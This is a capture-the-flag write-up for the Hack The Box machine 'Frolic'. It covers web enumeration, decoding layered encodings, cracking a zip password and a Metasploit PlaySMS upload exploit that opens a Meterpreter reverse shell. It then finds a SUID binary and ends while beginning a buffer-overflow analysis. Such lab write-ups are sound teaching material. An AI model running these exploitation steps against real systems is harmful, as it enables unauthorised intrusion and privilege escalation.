





---
search:
  exclude: true
---
# Frolic Writeup

## Introduction :

Frolic is an easy Linux box released back in October 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
      → nmap -F 10.10.10.111
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-04 10:29 CET
      Nmap scan report for 10.10.10.111
      Host is up (0.062s latency).
      Not shown: 96 closed ports
      PORT     STATE SERVICE
      22/tcp   open  ssh
      139/tcp  open  netbios-ssn
      445/tcp  open  microsoft-ds
      9999/tcp open  abyss
    
      Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
    
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
    →nmap -sC -sV 10.10.10.111 -p 22,139,445,9999
    Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-04 10:29 CET
    Nmap scan report for 10.10.10.111
    Host is up (0.066s latency).
    
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
    |   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
    |_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    9999/tcp open  http        nginx 1.10.3 (Ubuntu)
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    |_http-title: Welcome to nginx!
    Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    |_clock-skew: mean: -1h49m30s, deviation: 3h10m30s, median: 28s
    |_nbstat: NetBIOS name: FROLIC, NetBIOS user: <****unknown>, NetBIOS MAC: <****unknown> (unknown)
    | smb-os-discovery:
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: frolic
    |   NetBIOS computer name: FROLIC\x00
    |   Domain name: \x00
    |   FQDN: frolic
    |_  System time: 2019-12-04T15:00:07+05:30
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2019-12-04T09:30:07
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 15.21 seconds

## **Part 2 : Getting User Access**

Our nmap picked up a nginx service running on port 9999. Let's run the dirsearch command with the -r -e -t and -x flags.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → dirsearch -u http://10.10.10.111:9999/ -r -e php -t 50 -x 403
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: php | HTTP method: get | Threads: 50 | Wordlist size: 6027 | Recursion level: 1
    
    Error Log: /home/nihilist/.dirsearch/logs/errors-19-12-05_09-16-15.log
    
    Target: http://10.10.10.111:9999/
    
    [09:16:16] Starting:
    [09:16:16] 400 -  182B  - /%2e%2e/google.com
    [09:16:19] 301 -  194B  - /admin  ->  http://10.10.10.111:9999/admin/
    [09:16:19] 200 -  634B  - /admin/
    [09:16:19] 200 -  634B  - /admin/?/login
    [09:16:19] 200 -  634B  - /admin/index.md
    [09:16:22] 301 -  194B  - /backup  ->  http://10.10.10.111:9999/backup/
    [09:16:22] 200 -   28B  - /backup/
    [09:16:24] 301 -  194B  - /dev  ->  http://10.10.10.111:9999/dev/
    [09:16:32] 301 -  194B  - /test  ->  http://10.10.10.111:9999/test/
    [09:16:32] 200 -   83KB - /test/
    [09:16:33] Starting: admin/
    [09:16:41] 301 -  194B  - /admin/css  ->  http://10.10.10.111:9999/admin/css/
    [09:16:44] 200 -  634B  - /admin/index.md
    [09:16:44] 301 -  194B  - /admin/js  ->  http://10.10.10.111:9999/admin/js/
    [09:16:51] Starting: backup/
    [09:17:02] 200 -   28B  - /backup/index.php
    [09:17:04] 200 -   22B  - /backup/password.txt
    [09:17:08] 200 -   13B  - /backup/user.txt
    [09:17:09] Starting: dev/
    [09:17:15] 301 -  194B  - /dev/backup  ->  http://10.10.10.111:9999/dev/backup/
    [09:17:15] 200 -   11B  - /dev/backup/
    [09:17:26] 200 -    5B  - /dev/test
    [09:17:27] Starting: test/
    [09:17:38] 200 -   83KB - /test/index.php
    [09:17:46] Starting: css/
    [09:18:04] Starting: js/
    
    Task Completed
    
    

Dirsearch seems to have found the /admin/ folder.

 

Looking at the sourcecode of that page, it seems to be calling the js/login.js script. So let's browse to it to see what we get. We will be using the curl command along with the -s and -k flags.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → curl -sk http://10.10.10.111:9999/admin/js/login.js
    var attempt = 3; // Variable to count number of attempts.
    // Below function Executes on click of login button.
    function validate(){
    var username = document.getElementById("username").value;
    var password = document.getElementById("password").value;
    if ( username == "admin" && password == "superduperlooperpassword_lol"){
    alert ("Login successfully");
    window.location = "success.html"; // Redirecting to other page.
    return false;
    }
    else{
    attempt --;// Decrementing by one.
    alert("You have left "+attempt+" attempt;");
    // Disabling fields after 3 attempts.
    if( attempt == 0){
    document.getElementById("username").disabled = true;
    document.getElementById("password").disabled = true;
    document.getElementById("submit").disabled = true;
    return false;
    }
    }
    }
    

It seems that the javascript would redirect the user to yet another page which is success.html
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → curl -sk http://10.10.10.111:9999/admin/success.html
    ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
    ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
    ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
    ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
    !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
    ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
    ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
    ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
    ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
    !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
    !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
    .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
    !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
    ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
    !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
    !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
    !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
    ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
    !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
    !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
    ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
    ..!.! !!!!! !.?.
    
    

browsing to it we seem to get an [Ook!](https://www.dcode.fr/ook-language) encoded string. Decoding the string seems to show up the message **"Nothing here check /asdiSIAJJ0QWE9JAS"** So we will browse to it to see what we can work with.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → curl -sk http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/
    UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
    BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
    K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve
    EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
    lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
    AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG
    AAAAAAEAAQBPAAAAAwEAAAAA
    

Seems like we have a base64 string here, so we will pipe it into the base64 decoding command. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → curl -sk http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ | base64 -d
    PK     É7M#�[�i	index.phpUT	�|�[�|�[ux
                                              ^D�J�s�h�)�P�n
                                                            ��Ss�Jw�܎�4��ُk�z��UȖ�+X��P��ᶇ��л�x_�N�[���S��8����J2S�*�DЍ}�8dTQk������j_�����'xc��ݏt��75Q�
                                   ���k,4��b)�4F��	��������&q2o;�WԜ�9P#�[�iPK      É7M#�[�i	��index.phpUT�|�[ux
                                                                                                               PKO%
    
    

Even weirder ! It seems to have taken a binary form. so we will save it locally and check what filetype it is.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → curl -sk http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ | base64 -d > unknown_file
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/ ]
    → file unknown_file
    unknown_file: Zip archive data, at least v2.0 to extract
    
    

So we have a zipfile to work with ! Let's give it it's appropriate extension and try to extract it once we find it's password using fcrackzip. We will be using the rockyou.txt wordlist to see if the password of that zip file is publicly known.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → curl -sk https://www.scrapmaker.com/data/wordlists/dictionaries/rockyou.txt > rockyou.txt
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → ls -l
    total 136648
    -rw-r--r-- 1 nihilist users 139921497 Dec  5 09:53 rockyou.txt
    -rw-r--r-- 1 nihilist users       360 Dec  5 09:45 zipfile.zip
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → fcrackzip --help
    
    fcrackzip version 1.0, a fast/free zip password cracker
    written by Marc Lehmann <****pcg@goof.com> You can find more info on
    http://www.goof.com/pcg/marc/
    
    USAGE: fcrackzip
              [-b|--brute-force]            use brute force algorithm
              [-D|--dictionary]             use a dictionary
              [-B|--benchmark]              execute a small benchmark
              [-c|--charset characterset]   use characters from charset
              [-h|--help]                   show this message
              [--version]                   show the version of this program
              [-V|--validate]               sanity-check the algortihm
              [-v|--verbose]                be more verbose
              [-p|--init-password string]   use string as initial password/file
              [-l|--length min-max]         check password with length min to max
              [-u|--use-unzip]              use unzip to weed out wrong passwords
              [-m|--method num]             use method number "num" (see below)
              [-2|--modulo r/m]             only calculcate 1/m of the password
              file...                    the zipfiles to crack
    
    methods compiled in (* = default):
    
     0: cpmask
     1: zip1
    *2: zip2, USE_MULT_TAB

we will be using the zip password cracking tool with the -u , -D and -p flags.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → fcrackzip -u -D -p rockyou.txt zipfile.zip
    
    
    PASSWORD FOUND!!!!: pw == password
    

It was short ! now we can extract the zip file contents with the 7z command.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
      → 7z x zipfile.zip -ppassword
    
      7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
      p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Pentium(R) Silver N5000 CPU @ 1.10GHz (706A1),ASM,AES-NI)
    
      Scanning the drive for archives:
      1 file, 360 bytes (1 KiB)
    
      Extracting archive: zipfile.zip
      --
      Path = zipfile.zip
      Type = zip
      Physical Size = 360
    
    
      Would you like to replace the existing file:
        Path:     ./index.php
        Size:     0 bytes
        Modified: 2018-09-23 12:44:05
      with the file from archive:
        Path:     index.php
        Size:     617 bytes (1 KiB)
        Modified: 2018-09-23 12:44:05
      ? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y
    
      Everything is Ok
    
      Size:       617
      Compressed: 360
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → ls
    index.php  rockyou.txt  zipfile.zip
    
    

It contained a php file named "index" , let's see what we can do with it. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → cat index.php
    4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
    

The contents of index.php seems to contain a hexadecimal encoded string. we will pipe the output of the cat command into the xxd command with the -r and -p flags.
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → cat index.php | xxd -r -p
    KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
    KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
    K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
    LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
    

Looking at the results, we seem to have a base64 encoded string. we will pipe the output of the 2 previous commands into the base64 command with the -d flag. 
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → cat index.php | xxd -r -p | base64 -d
    +++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+base64: invalid input
    

Seems to be a brainfuck string ! however base64 doesn't like getting piped non-alphabet charcaters such as the endline special charcater, so we add the -i flag to bypass them. 
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → cat index.php |xxd -r -p | base64 -d -i
    +++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
    ++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
    <]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
    ++..<
    

Now that we have our full brainfuck encoded message , we will decode it using a brainfuck [interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html). 

Now we have a password we could work with ! Although we do not know where yet. Looking back at our dirsearch results we see that there the /dev/backup folder.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → curl -sk http://10.10.10.111:9999/dev/backup/
    /playsms
    

Yet another page ! let's browse to /playsms to see what we can work with. 

Seems like we have a login page ! let's test our "idkwhatispass" password with something trivial like root or admin 

 

Using the admin:idkwhatispass credentials, we have been able to log in ! We run a quick searchsploit command to see what exploits may be available for the playsms webservice
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → searchsploit playsms
    ---------------------------------------------------- ----------------------------------------
     Exploit Title                                      |  Path
                                                        | (/usr/share/exploitdb/)
    ---------------------------------------------------- ----------------------------------------
    PlaySMS - 'import.php' (Authenticated) CSV File Upl | exploits/php/remote/44598.rb
    PlaySMS 1.4 - '/sendfromfile.php' Remote Code Execu | exploits/php/webapps/42003.txt
    PlaySMS 1.4 - 'import.php' Remote Code Execution    | exploits/php/webapps/42044.txt
    PlaySMS 1.4 - 'sendfromfile.php?Filename' (Authenti | exploits/php/remote/44599.rb
    PlaySMS 1.4 - Remote Code Execution                 | exploits/php/webapps/42038.txt
    PlaySms 0.7 - SQL Injection                         | exploits/linux/remote/404.pl
    PlaySms 0.8 - 'index.php' Cross-Site Scripting      | exploits/php/webapps/26871.txt
    PlaySms 0.9.3 - Multiple Local/Remote File Inclusio | exploits/php/webapps/7687.txt
    PlaySms 0.9.5.2 - Remote File Inclusion             | exploits/php/webapps/17792.txt
    PlaySms 0.9.9.2 - Cross-Site Request Forgery        | exploits/php/webapps/30177.txt
    ---------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

It seems like we may be able to use a metasploit module to get onto the machine, let's fire up msfconsole and see what we could potentially work with. 
    
    
      msf5 > search playsms
    
      Matching Modules
      ================
    
         #  Name                                       Disclosure Date  Rank       Check  Description
         -  ----                                       ---------------  ----       -----  -----------
         0  exploit/multi/http/playsms_filename_exec   2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution
         1  exploit/multi/http/playsms_uploadcsv_exec  2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
    
    
    msf5 >
    
    
    
      msf5 > use multi/http/playsms_uploadcsv_exec
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > show options
    
    Module options (exploit/multi/http/playsms_uploadcsv_exec):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       PASSWORD   admin            yes       Password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       Base playsms directory path
       USERNAME   admin            yes       Username to authenticate with
       VHOST                       no        HTTP server virtual host
    
    
    Payload options (php/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST                   yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   PlaySMS 1.4
    
    

Seems like we have to set the rhost, lhost, rport, targeturi and password options.
    
    
      msf5 exploit(multi/http/playsms_uploadcsv_exec) > set rhosts 10.10.10.111
    rhosts => 10.10.10.111
    
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > set lhost 10.10.14.48
    lhost => 10.10.14.48
    
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > set rport 9999
    rport => 9999
    
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > set targeturi /playsms/
    targeturi => /playsms/
    
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > set password idkwhatispass
    password => idkwhatispass
    
    msf5 exploit(multi/http/playsms_uploadcsv_exec) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.48:4444
    [+] Authentication successful: admin:idkwhatispass
    [*] Sending stage (38288 bytes) to 10.10.10.111
    [*] Meterpreter session 1 opened (10.10.14.48:4444 -> 10.10.10.111:41616) at 2019-12-05 11:04:30 +0100
    
    meterpreter > sysinfo
    Computer    : frolic
    OS          : Linux frolic 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686
    Meterpreter : php/linux
    

it worked ! we have a meterpreter session onto the linux box. Let's create a shell and see if we can print out the user flag.
    
    
    
    meterpreter > shell
    Process 24934 created.
    Channel 0 created.
    whoami
    www-data
    
    cd ../../../../home
    
    ls
    ayush
    sahay
    
    cd ayush
    
    ls
    user.txt
    
    cat user.txt
    2aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have the user flag ! 

## **Part 3 : Getting Root Access**

Now in order to elevate our shell to administrating privileges, we first have to find binary files with the SUID bit active.$
    
    
       find / -perm -4000 2>/dev/null
    /sbin/mount.cifs
    /bin/mount
    /bin/ping6
    /bin/fusermount
    /bin/ping
    /bin/umount
    /bin/su
    /bin/ntfs-3g
    
    **/home/ayush/.binary/rop**
    
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/newuidmap
    /usr/bin/pkexec
    /usr/bin/at
    /usr/bin/sudo
    /usr/bin/newgidmap
    /usr/bin/chsh
    
     

There seems to be something interesting in /home/ayush/.binary/rop ! Let's first spawn a TTY Shell , then see what we can work with in the .binary directory
    
    
    python -c 'import pty; pty.spawn("/bin/sh")'
    $ cd /home/ayush
    cd ayush
    
    $ ls -la
    ls -la
    total 36
    drwxr-xr-x 3 ayush ayush 4096 Sep 25  2018 .
    drwxr-xr-x 4 root  root  4096 Sep 23  2018 ..
    -rw------- 1 ayush ayush 2781 Sep 25  2018 .bash_history
    -rw-r--r-- 1 ayush ayush  220 Sep 23  2018 .bash_logout
    -rw-r--r-- 1 ayush ayush 3771 Sep 23  2018 .bashrc
    drwxrwxr-x 2 ayush ayush 4096 Sep 25  2018 .binary
    -rw-r--r-- 1 ayush ayush  655 Sep 23  2018 .profile
    -rw------- 1 ayush ayush  965 Sep 25  2018 .viminfo
    -rwxr-xr-x 1 ayush ayush   33 Sep 25  2018 user.txt
    
    $ cd .binary
    cd .binary
    
    $ ls
    ls
    rop
    
    $ ls -la
    ls -la
    total 16
    drwxrwxr-x 2 ayush ayush 4096 Sep 25  2018 .
    drwxr-xr-x 3 ayush ayush 4096 Sep 25  2018 ..
    -rwsr-xr-x 1 root  root  7480 Sep 25  2018 rop
    
    $ ./rop
    ./rop
    [*] Usage: program <****message>
    
    $ ./rop nihilist
    ./rop nihilist
    [+] Message sent: nihilist$
    
    $ ./rop 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
    ./rop 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
    Segmentation fault (core dumped)
    
    $ cat /proc/sys/kernel/randomize_va_space
    cat /proc/sys/kernel/randomize_va_space
    0

As you can see, the rop binary possess root privileges, and it seems that there may be a buffer overflow vulnerability that we can work with. Also note that ASLR is disabled (0) on the machine which means that the buffer overflow vuln could potentially give us a privilege escalation. let's download the rop binary locally first, we will simply use python's SimpleHTTPServer that is present on the machine in combination with wget on our local machine.

_Terminal 1:_
    
    
    $ ls
    ls
    rop
    
    $ python -m SimpleHTTPServer
    python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    
    10.10.14.48 - - [05/Dec/2019 15:53:19] "GET /rop HTTP/1.1" 200
     

_Terminal 2:_
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → wget 10.10.10.111:8000/rop
    --2019-12-05 11:22:47--  http://10.10.10.111:8000/rop
    Connecting to 10.10.10.111:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 7480 (7.3K) [application/octet-stream]
    Saving to: ‘rop’
    
    rop                          100%[==============================================>]   7.30K  --.-KB/s    in 0s
    
    2019-12-05 11:22:47 (171 MB/s) - ‘rop’ saved [7480/7480]
     

Now that we have the binary saved locally, let's see what we can do with it. 
    
    
       λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → locate pattern_create
    /opt/metasploit/.tools/exploit/pattern_create.rb
    /opt/metasploit/tools/exploit/pattern_create.rb
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → /opt/metasploit/tools/exploit/pattern_create.rb -l 128
    WARNING: Nokogiri was built against LibXML version 2.9.9, but has dynamically loaded 2.9.10
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
    

Now that we have 
    
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Frolic ]
    → gdb -q rop
    GEF for linux ready, type `gef' to start, `gef config' to configure
    79 commands loaded for GDB 8.3.1 using Python engine 3.8
    [*] 1 command could not be loaded, run `gef missing` to know why.
    Reading symbols from rop...
    (No debugging symbols found in rop)
    gef➤  checksec
    [+] checksec for '/home/nihilist/_HTB/Frolic/rop'
    Canary                        : No
    NX                            : Yes
    PIE                           : No
